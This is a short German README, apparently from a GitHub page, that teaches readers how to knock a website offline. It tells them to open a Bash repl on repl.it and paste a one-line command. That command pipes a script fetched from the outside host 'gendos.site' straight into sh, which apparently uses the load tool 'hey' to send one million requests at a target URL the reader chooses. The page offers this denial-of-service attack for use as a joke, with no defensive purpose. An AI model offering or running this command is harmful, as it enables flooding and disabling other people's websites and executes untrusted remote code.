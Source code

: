 # Hoppsgenommen asa7be

![Hoppsgenommen du lappen](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/g102.png)

Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite in einem command hopps nimmt?

Dann bist du hier genau richtig !

Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.
